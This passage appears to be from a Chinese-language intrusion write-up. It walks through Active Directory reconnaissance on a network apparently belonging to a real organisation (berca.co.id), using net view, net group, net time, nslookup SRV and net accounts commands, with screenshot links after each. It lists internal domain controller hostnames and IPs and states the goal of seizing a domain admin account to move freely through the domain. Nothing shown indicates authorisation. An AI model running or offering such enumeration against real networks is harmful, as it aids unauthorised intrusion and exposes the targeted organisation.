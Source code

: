    
    net view /domain   //查询域  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095049.png)

    
    
    net view /domain:ROOT  //查询ROOT域内所有机器  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095050.png)

    
    
    net group "domain computers" /domain  //查询所有域成员计算机列表  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095053.png)

大概看了下，有好几百台机子，还不错。

    
    
    net time /domain  //查询主域  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095055.png)

域服务器通常也会作为时间服务器，主域：`\\ADBHPSRV.berca.co.id`

    
    
    net group "Domain Controllers" /domain  //查看域控列表  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095057.png)

    
    
    Nslookup -type=SRV \_ldap.\_tcp  //查看域控主机名  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095058.png)

得到两台域控的地址和主机名：

    
    
    192.168.15.187 adbhpsrv.berca.co.id  
      
    192.168.15.180 adbhpsrv02.berca.co.id  
    
    
    
    net group "domain admins" /domain  //查询域管  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095102.png)

域管还挺多，我们只要能拿到一个域管的权限，就可以在这个域内漫游了

    
    
    net accounts /domain  //获取域密码信息  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230228095104.png)
